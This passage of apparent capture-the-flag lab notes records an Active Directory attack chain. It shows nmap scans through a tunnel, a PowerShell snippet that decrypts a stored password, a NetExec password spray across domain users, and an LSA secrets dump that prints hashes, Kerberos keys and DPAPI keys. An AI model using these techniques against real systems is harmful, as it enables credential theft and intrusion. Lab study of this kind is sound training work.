




Same here but seems like no success so we can move on?



New scan from inside linux wordpress machine!

```
www-data@corewebdl:/tmp$ ./nmap -F 10.9.10.14
./nmap -F 10.9.10.14

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-06-14 08:41 EST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 10.9.10.14
Host is up (0.00080s latency).
Not shown: 242 closed ports
PORT     STATE SERVICE
135/tcp  open  epmap
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 1.13 seconds
```

Even more details after I fixed ligolo:

```
PORT      STATE SERVICE       REASON         VERSION
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
445/tcp   open  microsoft-ds? syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| ssl-cert: Subject: commonName=cyfs.cyber.local
| Issuer: commonName=cyfs.cyber.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-13T14:55:37
| Not valid after:  2024-12-13T14:55:37
| MD5:   3e3a:e440:cdc2:e168:d6d2:b04f:c2a7:e1e7
| SHA-1: 19e0:2cab:71c5:b522:38c1:7cd1:37fc:711e:be81:bc0e
| -----BEGIN CERTIFICATE-----
| MIIC5DCCAcygAwIBAgIQd8NGBcdFmJ5P5NUVYlxePTANBgkqhkiG9w0BAQsFADAb
| MRkwFwYDVQQDExBjeWZzLmN5YmVyLmxvY2FsMB4XDTI0MDYxMzE0NTUzN1oXDTI0
| MTIxMzE0NTUzN1owGzEZMBcGA1UEAxMQY3lmcy5jeWJlci5sb2NhbDCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBANWfAuQe22GmUC51idmsZ0XqYtxmWJ/T
| eCUQaFUO72/dEEIt4MmSN89cv3fqxO9kvYoQWGCrUEjFZbGSCwmUXq5nPdYCci1Z
| otMGPW7oyUzjEEZdYVrMMIQ850HiUZvmzBtNRlawntGvVGgu6yuji8rE1nvobY6j
| YcwxOIi4FLVVYMUewVPJgm+tSwsEzL1Gx/0Q237MDPhExlPK8iWVu2CjrXEyFOzN
| NYqMtsurTUXDUQ4gXTn/HhuA1Vei1qaT+UwfeR2KJFZ5INAVDcC5mJMNDWxMJhSN
| 4UZziUHRVfDxBhk26PAb/fSZunxeZZzcFcyouc1MQlgiZIffyjdpd5ECAwEAAaMk
| MCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEB
| CwUAA4IBAQBXT6Y7CZ2nGMDfXJqgURoR2leRHU7hZppRxRmTKdFzI2koa/owM5X6
| 6EnUyfjoWPcBDENoFZEFWlVkAV8UujMs6orMn+lbbC5AguvLEoKsVxZPfZIYoa/h
| AHsz0YxqeM6qPkwMxsLiQ3Jisrhfx5STTyLzSaLnrBxmLeEHlJbcsVRtIiEgFGQ2
| ccCFjL7X7l0V4QawdlLJfhpywgBeyfBlbxn+nT/au9TNJ4mwrxZWRhkam+2log8X
| 1y1ZjfXTx85wnBxdce1R3rXJp1WS2nNqf7sX0sFYgFrfimLrC4f4qWrr2988G2Eh
| DZpoKlRVW8lBEAia8+0vlRGGB4/cicNg
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: CYBER
|   NetBIOS_Domain_Name: CYBER
|   NetBIOS_Computer_Name: CYFS
|   DNS_Domain_Name: cyber.local
|   DNS_Computer_Name: cyfs.cyber.local
|   Product_Version: 10.0.14393
|_  System_Time: 2024-06-14T15:25:27+00:00
|_ssl-date: 2024-06-14T15:25:37+00:00; +1s from scanner time.
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
57256/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=6/14%OT=135%CT=%CU=%PV=Y%G=N%TM=666C60F0%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=10E%TI=I%CI=RD%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 23.609 days (since Wed May 22 02:49:17 2024)
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Now checking under devops I can't see a same file:  


Which means we have all the needed stuff to get a password... Seems like the they is used to encrypt the password:



To decrypt I foudn this one:

https://eddiejackson.net/wp/?p=28189

But chatGPT can give you this one:

```
$aesKey = Get-Content "./aes.key" 
$encrypted = Get-Content "./passwd.txt"
$decryptedSecureString = ConvertTo-SecureString -String $encrypted -Key $aesKey
$ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToCoTaskMemUnicode($decryptedSecureString)
$decryptedPlainText = [System.Runtime.InteropServices.Marshal]::PtrToStringUni($ptr)
```

```
└─PS> $username = "fakeuser"                                                              

┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_local]
└─PS> $aesKey = Get-Content "./aes.key" 

┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_local]
└─PS> $encrypted = Get-Content "./passwd.txt"

┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_local]
└─PS> $decryptedSecureString = ConvertTo-SecureString -String $encrypted -Key $aesKey

┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_local]
└─PS> $ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToCoTaskMemUnicode($decryptedSecureString)

┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_local]
└─PS> echo $ptr      
139885947342592

┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_local]
└─PS> $decryptedPlainText = [System.Runtime.InteropServices.Marshal]::PtrToStringUni($ptr)                   

┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_local]
└─PS> echo $decrypted
decrypted              decryptedPlainText     decryptedSecureString  

┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_local]
└─PS> echo $decryptedPlainText
to7oxaith2Vie9
```

Can we password spray now?

```
to7oxaith2Vie9
```

Seems like we can use Robert.Ortiz:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_local]
└─# NetExec smb 10.9.10.10 -d "cyber.local" -u users.cyber.local -p 'to7oxaith2Vie9'          
SMB         10.9.10.10      445    CYDC             [*] Windows 10 / Server 2016 Build 14393 x64 (name:CYDC) (domain:cyber.local) (signing:True) (SMBv1:False)
SMB         10.9.10.10      445    CYDC             [-] cyber.local\Dennis.Hinkle:to7oxaith2Vie9 STATUS_LOGON_FAILURE 
SMB         10.9.10.10      445    CYDC             [-] cyber.local\Emogene.Kremer:to7oxaith2Vie9 STATUS_LOGON_FAILURE 
SMB         10.9.10.10      445    CYDC             [-] cyber.local\Laurette.Partridge:to7oxaith2Vie9 STATUS_LOGON_FAILURE 
SMB         10.9.10.10      445    CYDC             [-] cyber.local\Forrest.Lowery:to7oxaith2Vie9 STATUS_LOGON_FAILURE 
SMB         10.9.10.10      445    CYDC             [-] cyber.local\Angela.Stark:to7oxaith2Vie9 STATUS_LOGON_FAILURE 
SMB         10.9.10.10      445    CYDC             [-] cyber.local\Arthur.Pearlman:to7oxaith2Vie9 STATUS_LOGON_FAILURE 
SMB         10.9.10.10      445    CYDC             [-] cyber.local\David.Hurley:to7oxaith2Vie9 STATUS_LOGON_FAILURE 
SMB         10.9.10.10      445    CYDC             [-] cyber.local\Bradley.Frederick:to7oxaith2Vie9 STATUS_LOGON_FAILURE 
SMB         10.9.10.10      445    CYDC             [-] cyber.local\Michael.Fowler:to7oxaith2Vie9 STATUS_LOGON_FAILURE 
SMB         10.9.10.10      445    CYDC             [-] cyber.local\William.Donovan:to7oxaith2Vie9 STATUS_LOGON_FAILURE 
SMB         10.9.10.10      445    CYDC             [+] cyber.local\Robert.Ortiz:to7oxaith2Vie9
```

With these credentials we can grab another flag!



I guess we can move on for now!

&nbsp;

# Post

I will run a lsass dump again now with admin creds from CYDC

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_local]
└─# NetExec smb 10.9.10.14 -u 'Administrator' -p '9ze9wL0C!3' --lsa
SMB         10.9.10.14      445    CYFS             [*] Windows 10 / Server 2016 Build 14393 x64 (name:CYFS) (domain:cyber.local) (signing:True) (SMBv1:False)
SMB         10.9.10.14      445    CYFS             [+] cyber.local\Administrator:9ze9wL0C!3 (Pwn3d!)
SMB         10.9.10.14      445    CYFS             [+] Dumping LSA secrets
SMB         10.9.10.14      445    CYFS             CYBER.LOCAL/Administrator:$DCC2$10240#Administrator#c145dcbd844f88264bdd35aafd17500f: (2024-03-14 07:33:36)
SMB         10.9.10.14      445    CYFS             CYBER\CYFS$:aes256-cts-hmac-sha1-96:7f2f74fd80f55a53619cc6e5e797c431ce94acbd8d27de2870204803fa44bdf7
SMB         10.9.10.14      445    CYFS             CYBER\CYFS$:aes128-cts-hmac-sha1-96:de1d9c23e737ea5fcf6c1acceb2f2f8a
SMB         10.9.10.14      445    CYFS             CYBER\CYFS$:des-cbc-md5:b397802316f49bcd
SMB         10.9.10.14      445    CYFS             CYBER\CYFS$:plain_password_hex:4d006a005900600043002d0039006f005a004a006800560024005c00260044004e00790060002e003c00410035005300720025004b0078002f00210036005f0043003b00460045002a005b00490074002e0025002f0068003e00650042006e003c004c007a005f0078002d00730073003d003300570050006000320020002c0060005c0048005e003b0023005700610068006400420044004c00570050002c0021002d005f0075003b0059005a003000560049007000300025005f002800640041005f0028004f004e0050004a0034003f0034005600750040003d0071003700600068006f002d006b00440052005500
SMB         10.9.10.14      445    CYFS             CYBER\CYFS$:aad3b435b51404eeaad3b435b51404ee:2fcd9f5605ed9ee63a88ee7571c07619:::
SMB         10.9.10.14      445    CYFS             dpapi_machinekey:0x1d51644b53a61e67f3bcb474ee31fd010d290bad
dpapi_userkey:0x1598b85b24bdf5fccac7d32abd4ab5714151297a
SMB         10.9.10.14      445    CYFS             NL$KM:d8337f7ba32cde15cfb49a10373f6ba94e4946705727e81ee8a911a81def190ccc4392f39cc7511a06566d60da73227481ecb49f69fc6a8ac852e6f503560d59
SMB         10.9.10.14      445    CYFS             [+] Dumped 8 LSA secrets to /root/.nxc/logs/CYFS_10.9.10.14_2024-06-19_225339.secrets and /root/.nxc/logs/CYFS_10.9.10.14_2024-06-19_225339.cached
```

And again seems like we don't have any flags!

&nbsp;